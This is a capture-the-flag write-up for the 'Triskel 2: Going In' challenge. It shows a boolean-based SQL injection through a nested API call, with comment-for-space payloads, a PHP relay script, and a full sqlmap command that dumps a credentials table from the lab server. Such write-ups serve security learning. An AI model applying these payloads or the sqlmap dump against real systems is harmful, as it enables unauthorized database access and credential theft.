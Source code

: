 ```yaml
---
description: SQL Injection
---
```


# Triskel 2: Going In

## Problem

What did you do? You shouldn't have access to this chat, but you can't do anything from it right?

by Remsio

## Solution

Taking a closer look at `10.0.42.200`, we can see that there is a GET form with the `search` parameter.

![](../../.gitbook/assets/4f074bb7625145dfaface66b4a1a491b.png)

Hence, we can use

```text
GET /api/call_api.php?api=10.0.42.200?search=
```

Testing out some basic payloads showed that SQL injection was possible, but spaces aren't allowed. Luckily, in MySQL, we can replace the spaces with comments \(`/**/`\).

We can see that

```text
/api/call_api.php?api=10.0.42.200/?search=admin_richard_lauren'/**/OR/**/'1'='1
```

returns us all the messages, while

```text
/api/call_api.php?api=10.0.42.200/?search=admin_richard_lauren'/**/OR/**/'1'='2
```

does not.

I could have scripted this myself, but I decided it was too much work and just relied on good ol' SQLMap. However, it required some fine-tuning to make sure SQLMap performs the injection correctly.

We're doing a "GET request within a GET request", so SQLMap gets confused. I set up a local HTTP proxy as follows:

```php
<?php
    // create a new cURL resource
    $ch = curl_init();

    // set URL and other appropriate options
    curl_setopt($ch, CURLOPT_URL, 'http://10.35.2.134:8100/api/call_api.php?api=10.0.42.200?search=' . $_GET['search']);
    curl_setopt($ch, CURLOPT_HEADER, false);

    // grab URL and pass it to the browser
    echo curl_exec($ch);

    // close cURL resource, and free up system resources
    curl_close($ch);
?>
```

Then, we can run SQLMap:

`sqlmap http://127.0.0.1/test.php?search=abc -p search --tamper=space2comment --technique=B --risk 3 --dump --threads 10 -D db -T internal_api_infos`

Note that we specify:

* `-p search`: inject through the search parameter
* `--tamper=space2comment`: modify the queries such that spaces are replaced by `/**/`
* `--technique=B`: use boolean-based injection
* `--risk 3`: attempt OR boolean-based injection \(which we found earlier\)

We get the admin credentials, which we can use to login to the first webpage.

![](../../.gitbook/assets/cdbda52f06ef451c8e1e934215fe0c56.png)

The remaining credentials are shown below:

![](../../.gitbook/assets/5b8d89aa5d2a4b2fa271edd3ec03d125.png)

This allows us to access the Admin page, which contains the flag.

![](../../.gitbook/assets/0755ec7dc5ed4c0a8417a103ce0a4054.png)

